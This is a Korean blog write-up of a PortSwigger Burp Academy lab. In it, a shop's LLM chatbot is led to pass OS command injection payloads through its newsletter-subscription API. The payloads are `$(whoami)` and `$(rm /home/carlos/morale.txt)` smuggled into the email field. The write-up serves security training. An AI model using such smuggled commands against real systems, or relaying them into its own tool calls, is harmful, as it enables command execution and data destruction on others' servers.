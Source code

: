 ```yaml
---
layout: post
title: "Burp Academy-LLM 관련 취약점: Exploiting vulnerabilities in LLM APIs"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, LLM]
toc: true
last_modified_at: 2024-04-11 21:00:00 +0900
---
```


# 개요
- LLM(Large Language Model) 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/llm-attacks/lab-exploiting-vulnerabilities-in-llm-apis
- 취약점 설명페이지: https://portswigger.net/web-security/llm-attacks
- 난이도: PRACTITIONER (보통)

# 취약점 개요 (Chaining vulnerabilities in LLM APIs)
- 일견 해로워보이지 않는 API도, 다른 취약점을 찾는데 이용할 수 있는 경우도 있다. 
- 예를 들면, 파일명을 인풋으로 사용해서 LLM이 패스 트래버셜을 실행하도록 할 수도 있다. 
- 공격 표면을 찾았으면, 클래식 Web 취약점과 결합해서 exploit을 수행할 수 있다. 


# 문제 개요
- 이 랩에는 LLM을 통해 API를 통해서 실행가능한 OS 커맨드 인젝션 취약점이 있다. 
- Carlos의 홈 디렉토리에 있는 morale.txt 파일을 삭제하면 랩이 풀린다. 

```
This lab contains an OS command injection vulnerability that can be exploited via its APIs. You can call these APIs via the LLM. To solve the lab, delete the morale.txt file from Carlos' home directory.
```


# 풀이 
1. 문제 서버를 살펴보면 Livechat 기능이 있다. 여기에 LLM이 사용되고 있을 가능성이 높다. 어떤 API를 실행할 수 있는지 물어보면 다음의 세 가지 API를 사용할 수 있다고 알려준다. 패스워드 재설정, 뉴스레터 구독, 상품 정보 API다. 얼핏 봐서는 딱히 OS 커맨드 인젝션을 사용가능할만한 API가 안 보인다. 

```
As a customer support assistant for the Gin and Juice shop, I can call the following API functions:

1. `password_reset`: This function allows me to request a password reset for a user by providing their username or email.

2. `subscribe_to_newsletter`: This function allows me to subscribe a user to the newsletter by providing their email address.

3. `product_info`: This function allows me to retrieve information about a specific product by providing its name or ID.
```

2. 그나마 product_info가 가능성이 있어보인다? 몇 번 인젝션을 시도해보았으나 안된다. 잘 모르겠으니 답을 본다. 

3. 메일보내는 API가 답이 었다. 메일보내는 기능에서 OS 커맨드를 사용하는 경우가 있으므로, 여기에서 OS 커맨드 인젝션을 사용할 가능성이 있다고 한다. 메일보내는 기능은 뉴스레터 구독기능이다. 

4. 구독기능을 테스트해본다. LLM에게 공격자의 이메일 'attacker@exploit-0a9f00db049eae6a848676b901c3003d.exploit-server.net'로 구독하겠다고 말해본다. LLM이 구독처리에 성공했다고 답해준다. 이메일을 확인해보면 메일이 도착한 것을 알 수 있다. 

![](/images/burp-academy-llm-2-1.png)

5. 이번에는 메일의 유저부분에 `$(whoami)`를 넣어서 구독요청을 해본다. 그러면 도착한 메일에서 커맨드 `$(whoami)`가 실행된 값 carlos를 확인할 수 있다! 이 것으로 OS 커맨드 인젝션이 가능한 것을 알았다. 

![](/images/burp-academy-llm-2-2.png)

6. OS 커맨드 인젝션이 가능한 것을 알았으므로 `morale.txt`를 삭제하는 OS 커맨드를 사용해본다. `$(rm /home/carlos/morale.txt)@exploit-0a9f00db049eae6a848676b901c3003d.exploit-server.net`다. 시도해보면 LLM은 이메일 주소가 맞지 않다고 응답해하지만 실제로는 파일 삭제에 성공하여 문제가 풀렸다는 메세지가 출력된다. 

![](/images/burp-academy-llm-2-3.png)

![](/images/burp-academy-llm-2-success.png)